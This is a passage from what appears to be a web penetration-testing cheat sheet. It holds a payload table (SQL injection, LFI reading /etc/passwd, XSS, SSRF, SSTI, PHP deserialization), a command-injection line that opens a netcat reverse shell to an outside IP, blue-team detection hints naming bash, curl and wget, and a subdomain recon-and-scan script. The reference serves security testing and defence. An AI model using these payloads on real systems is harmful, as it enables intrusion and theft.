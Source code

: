 ```

Proof of Concept:
<insert screenshot or video>
```

***

### XI. ⚙️ Cheat Reference Table

| Category          | Payload / Command                     |
| ----------------- | ------------------------------------- |
| SQLi              | `' OR '1'='1'--`                      |
| Command Injection | `; nc -e /bin/sh 10.10.14.2 4444`     |
| LFI               | `../../../../etc/passwd`              |
| SSTI              | `{{7*7}}`                             |
| XSS               | `<svg onload=alert(1)>`               |
| SSRF              | `http://127.0.0.1:8080/admin`         |
| Deserialization   | PHP: `O:1:"A":1:{s:1:"b";s:3:"pwn";}` |

***

### XII. 🔒 Blue-Team / Detection Hints

| Attack            | Detection Method                              |
| ----------------- | --------------------------------------------- |
| SQLi              | IDS/IPS regex on `' OR`, `UNION SELECT`       |
| XSS               | WAF HTML entity escaping                      |
| SSRF              | Logs showing 169.254.x.x / localhost requests |
| File Upload       | MIME mismatch / signature mismatch alerts     |
| Command Injection | `bash`, `curl`, `wget` in logs                |
| CSRF              | Missing CSRF tokens flagged by scanners       |
| JWT Abuse         | Invalid token reuse detection                 |

***

### XIII. 🧰 Quick Automation Script (Recon → Scan)

```bash
domain=example.com
subfinder -d $domain -o subs.txt
httpx -l subs.txt -silent -o live.txt
nuclei -l live.txt -t cves/ -o findings.txt
```

***
